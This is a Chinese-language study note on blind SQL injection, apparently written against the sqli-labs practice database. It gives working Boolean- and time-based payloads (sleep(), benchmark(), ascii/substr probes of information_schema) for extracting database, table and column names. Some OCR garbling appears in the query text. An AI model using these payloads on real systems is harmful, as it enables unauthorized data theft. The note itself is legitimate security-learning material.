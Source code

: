 # 2019.07.13记录

[TOC]

## 布尔盲注
	基于布尔的盲注（Boolean-based blind SQL injection），即可以根据返回页面判断条件真假的注入。比如对参数加一个’ and ‘1’=‘1和’ and ‘1’='2，如果第一个能查询出来，第二个不行，则说明可以注入，后面可以根据字段and exist(…)不断猜测。
### 一般步骤：
	1. 求闭合字符
	2. 求当前数据库名的长度
	3. 求当前数据库名对应的ascii值
	4. 求表的数量
	5. 求表名的长度
	6. 求表名对应的ascii值
	7. 求列的数量
	8. 求列的长度
	9. 求列名对应的ascii值
	10. 求字段的数量
	11. 求字段内容的长度
	12. 求字段内容对应的ascii值

```
布尔盲注常用语句：
substr(string,num start,num length)
string 为字符串
string 为字符串
length 为长度

ascii( )函数
作用：返回字符串str的字符ASCII码值。如果str是空字符串，返回0.如果string是 NULL,返回NULL。

布尔盲注过程代码模板：
(select count(schema_name) from information_schema.sc hemata)> n
n为数据库个数，当数据库个数大于n页面显示正常

(select length(schema_name) from information_schema.s chemata limit 0,1)> n
该语句判断数据库内第一个数据库名有多少字符，大于n则页面显示正常

(select ascii(substr((select schema_name from informa tion_schema.schemata limit 0,1),1,1)))>105
ascii（）将返回字符串的ascii值  
第一个1，表示截取字符串的起始位置
第二个1，表示截取字符串长度
该语句作用：判断第一个库第一个字符是什么
```

### 后台sql语句
sql="SELECT∗FROMusersWHEREid=′id’ LIMIT 0,1";

1. 判断数据库长度
```
?id=1’ and length(database())=8–+
返回正常，证明库的长度位八个字节 --+把后面的 ’ 注释掉
````

2. 判断数据库中的第一个字符
```
/?id=1’ and left(database(),1)<‘t’’ 用 ’ 与后面的单引号闭合
Left() 判断库的第一位是否小于t，返回正常说明首字母小于t
/?id=1’ and left(database(),1)>‘r’–+
返回正常，首字符位s，依次判断
?id=1’ and ascii(substr((select database()),2,1))>100 --+
?id=1’ and ascii(substr((select database()),2,1))<102 --+
判断库的第二位是什么（使用ascii判断） 证明是e
库名为security
```

3. 爆security中的表名
```
ascii(substr((select table_name from information_schema.tables
where table_schema=‘security’ limit 0,1),2,1))<109
?id=1’ and exists(select group_concat(table_name) from information_schema.tables where table_schema=‘security’ )–+
ascii(substr((select table_name from information_schema.tables
where table_schema=‘security’ limit 0,1),2,1))<109
依次类推，得到所有的表为emails，referers，uagents，users
````

4. 爆字段名
```
?id=1 and ascii(substr((select column_name from information_schema.columns where table_name=‘users’ and table_schema=‘security’ limit 0,1),1,1))<106%23
依次类推，得到users的表username的值为Dumb。
````

## 时间盲注

### 1. 利用sleep()函数进行延时注入：
' and if(ascii(substr(database(),1,1))=115,1,sleep(5))--+

【这里跟前面基于布尔的盲注类似，都是正确的话页面正常，但错误将会异常，这里错误会导致页面等待5秒，已经数据库security第一位为s，所以=115时正常显示，如图】

### 2. 利用benchmark()函数进行延时注入：
' union select (if(substring(current,1,1)=char(115),benchmark(50000000,encode('msg','by 5 second')),null)),2,3 from (select database() as current) as tb1--+

【与sleep函数处理相反，只有当猜对值时才会有延时，这里因为第一位是s猜对了，所以benchmark函数会将encode('msg','by 5 second')执行50000000次。这里substring和substr一样，都是截取字符，里面current可以改，只要和第一个as后面的current一起换，tb1也随便换啥都行，benchmark第一个参数是执行次数，后面几个都无所谓（至少有一个参数就行）】
